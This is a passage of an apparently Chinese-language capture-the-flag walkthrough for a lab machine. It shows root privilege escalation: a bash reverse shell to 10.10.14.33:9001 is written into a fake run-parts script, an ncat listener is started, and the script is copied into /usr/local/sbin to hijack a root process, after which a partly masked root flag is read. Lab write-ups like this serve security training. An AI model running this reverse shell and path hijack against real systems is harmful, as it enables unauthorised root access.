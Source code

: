 然后我编辑运行部分的内容:

```
#!/bin/bashbash -i >& /dev/tcp/10.10.14.33/9001 0>&1
```

设置我的监听器:

```
ncat -nlvp 9001
```

将运行部分脚本复制到/usr/local/sbin/:

```
cp run-parts /usr/local/sbin/run-parts
```

当我进入盒子后，我得到了一个外壳:

![](img/c42086a7eb6f8c9c4c63a6f28f4c7816.png)

我现在可以读 root.txt 了..

```
root@writeup:/root# cat root.txt
cat root.txt
**eeba47f60....**
```

我还检查了/root/bin 下的 cleanup.pl 脚本:

![](img/62d9b2f25cef1b3e9c63af3d415d61e1.png)

